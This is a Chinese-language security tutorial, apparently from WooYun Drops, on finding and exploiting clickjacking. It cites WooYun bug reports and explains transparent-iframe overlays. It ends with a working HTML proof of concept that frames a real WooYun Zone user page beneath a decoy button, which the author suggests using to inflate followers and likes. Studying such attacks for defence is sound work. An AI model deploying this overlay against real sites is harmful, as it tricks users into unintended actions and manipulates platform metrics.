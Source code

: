 # clickjacking漏洞的挖掘与利用

0x00简介

* * *

1 说起clickjacking，很多人其实都不知道是干嘛的。比起XSS来说，clickjacking显得比较神秘，乌云漏洞库里面的相关的漏洞也不到10条而已。

2 瞌睡龙之前发过一篇clickjacking的技术文档，主要是介绍clickjacking出现的原因，以及防御的方法。我这里主要是介绍，怎么寻找clickjacking以及怎么去利用。[Clickjacking简单介绍](http://drops.wooyun.org/papers/104)

提醒一下click jacking和json hijacking完全不是一个东西额，这里大家不要混淆了。

0x01 案例

* * *

1 ClickJacking

[腾讯微博ClickhiJacking](http://wooyun.org/bugs/wooyun-2010-019683)

[新浪微博点击劫持刷粉丝](http://wooyun.org/bugs/wooyun-2010-048468)

2 Xss 结合 ClickJacking

[百度主站反射型XSS漏洞](http://wooyun.org/bugs/wooyun-2010-055526)

[百度贴吧贴内一处Mouseover XSS利用](http://wooyun.org/bugs/wooyun-2010-018358)

[百度翻译反射型XSS（点击劫持demo）](http://wooyun.org/bugs/wooyun-2010-072505)

可以看到配合clickjacking，某些看起来比较鸡助的XSS或者不起眼的设置，也会产生比较严重的危害额。

0x02 实例讲解

* * *

说了这么多，不知道有么有理解。看下面的实例吧。

[用另一个低级的漏洞向豌豆荚用户手机后台静默推送并安装任意应用](http://wooyun.org/bugs/wooyun-2010-071676)

他这里是将自己设计了一个页面，然后上面伪造了一个领奖按钮，然后将iframe嵌套的原网页的推送与其领奖的按钮进行了重叠。

不过不知道是洞主笔误，还是洞主对于clickjacking的描述还是有一些错误。

[![](http://static.wooyun.org/20141110/2014111008254320848.jpg)](http://drops.wooyun.org/wp-content/uploads/2014/11/111.jpg)

这里洞主的描述显然是有问题的。

正确的原理应该是这样，这个领奖的页面是在下面，而原iframe的那个页面在最上面。然后第一个图由于将iframe完全透明了，所以用户就只能看到下面的那个领奖页面。然后用户点击领奖，其实是点击了上层页面中的推送。

所以蓝色圈圈那个位置，应该是“上面”而不是“下面”。

0x03 Zone ClickJacking挖掘

* * *

之前看到瞌睡龙的这个文章的下面，剑心说要赶紧给zone的感谢加上clickjacking的防御。

然后我看了下，zone的感谢加了个confrim，不过其实这种只是可以减轻clickjacking的威力，并不能得到根治啊，完全可以构造2个点骗用户点击的。

然后zone的关注、喜欢、不喜欢这些功能也没有防御，目测zone应该是完全没有防御clickjacking。不过试了试，乌云主站还是对clickjacking进行了防御的，会检测url有么有被iframe嵌套。

下面给个测试poc，有兴趣的可以自己研究研究更好的利用环境。

```
<html>
    <head>
        <meta charset="utf-8" />
        <title>clickjacking demo</title>
    </head>
    <div style="z-index:999;opacity:0.3;width:500px; height:500px;overflow:hidden;position:absolute;top:20px;left:20px;">
        <iframe id="inner" style="position:absolute;top:140px;width:1000px;height:500px;left:-484px;" src="http://zone.wooyun.org/user/px1624"></iframe>
    </div>
    <button id="anwoa" style="cursor:pointer;z-index:10px;position:absolute;top:225px;left:200px;text-align:center;width:100px;height:57px;">按我啊</button>
</html>

```

利用这个clickjacking的poc代码，就可以给自己刷点乌云zone的粉丝了。

同时，还可以给自己zone里面的帖子刷喜欢数量。据说这个喜欢数量可是和zone里面的领主算法息息相关的额!